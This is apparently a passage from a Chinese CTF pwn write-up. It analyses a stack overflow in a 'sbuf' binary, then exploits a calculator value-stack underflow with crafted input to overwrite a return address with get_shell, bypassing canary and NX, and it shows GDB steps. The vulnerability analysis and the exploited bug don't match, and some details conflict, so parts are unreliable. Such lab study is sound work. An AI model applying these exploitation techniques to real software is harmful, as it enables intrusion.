
- 5.open flag后的rax值，rax=3(fd)

- 6.read flag后的rax值，rax=读到的字节数

- 7.write flag后 rax=写入的字节数

至此我们得到了flag


---

# Task 4：sbuf
## 1.漏洞分析
根据反编译代码，漏洞位于 `sub_4019F5` 函数中，具体细节如下：

---

### 漏洞点位置

```c
buf = &v3;                     // v3 是一个 __int64，仅 8 字节
v7 = read(0, buf, 0x200u);    // 读取最多 512 字节到 buf
```

- **`buf`** 指向栈上的局部变量 `v3`（偏移 `rbp-0x50`），其实际大小仅为 **8 字节**。
- **`read`** 却允许写入 **0x200（512）字节**，远超缓冲区容量。
- 写入从 `v3` 起始地址开始，向高地址方向延伸，因此会依次覆盖：
  1. `v4`（8 字节）
  2. `v5`（1 字节）
  3. `i`（4 字节）
  4. `v7`（4 字节）
  5. `v8`（4 字节）
  6. `v9`（8 字节）
  7. `buf` 本身（8 字节）
  8. `v11`（8 字节）
  9. `v12`（8 字节）
  10. **栈金丝雀 `v13`**（8 字节，位于 `rbp-0x8`）
  11. **保存的 RBP**（8 字节，位于 `rbp+0x0`）
  12. **返回地址**（8 字节，位于 `rbp+0x8`）

---

### 漏洞本质

这是典型的 **栈缓冲区溢出（Stack Buffer Overflow）**。由于输入长度未受限制，攻击者可以：

- **覆盖返回地址**，劫持程序控制流，跳转到任意代码（ ROP 链）。
- 但同时也覆盖了（canary），导致程序在退出前会检测到 canary 被篡改，触发 `__stack_chk_fail` 并终止进程，**除非攻击者能先泄露 canary 的值**。

---
### 结论

主要漏洞：`sub_4019F5` 中的 `read` 调用未限制写入长度，导致栈缓冲区溢出，可覆盖返回地址，但因 canary 的存在，利用难度较高，需配合信息泄露或特定场景下的绕过技术。

---
## 2.利用的漏洞

**值栈下溢**：表达式 `++++N` 中，前 5 个 `+` 触发 4 次 eval 调用（pop 2 值 + push 1 值），使值栈计数器 num_count 不断减小到负数。此时 push_value 写入 `arg + num_count × 8` → addr 低于 arg → 覆盖到 calc 栈帧的返回地址。


---
## 3.绕过防护的手法

| 防护 | 绕过方式 |
|------|---------|
| Stack Canary | 只写返回地址 (arg-40)，不碰 canary (arg-56) |
| NX | 不执行 shellcode，跳转到已有代码 get_shell@0x4011A6 |
| Full RELRO | 不修改 GOT，直接覆盖栈上返回地址 |
| No PIE | **利用！** get_shell 地址固定 0x4011A6，直接写入 |
---
## gdb过程
### 1：确认内存布局（canary / 返回地址位置）
```
b *0x4019f5
r <<< "1+1"
```

在 calc 入口断下后：

```
x/gx $rdi
x/4gx $rdi-0x40
```

---
### 2：下溢写入过程
```
d
b *0x4012ab
r <<< "+++++5"
```

断在 push_value 后，连续按 c，每次记下：

```
i r rsi
x/d 0x7fffffffd710+0x800
```

重复直到第6次 push。**第5次时 rsi=5 是关键证据**。前几次的rsi=0.

---
### 3：最终payload执行过程
- 1.最终 Payload 改写返回地址为 get_shell
- arg-40 = 0x4011a6，canary(arg-56) 值完好。

- 2.calc 返回跳到 get_shell


- 3.execve 参数准备

- 4.执行 execve → shell 启动

- 5.远程 Flag

# bonus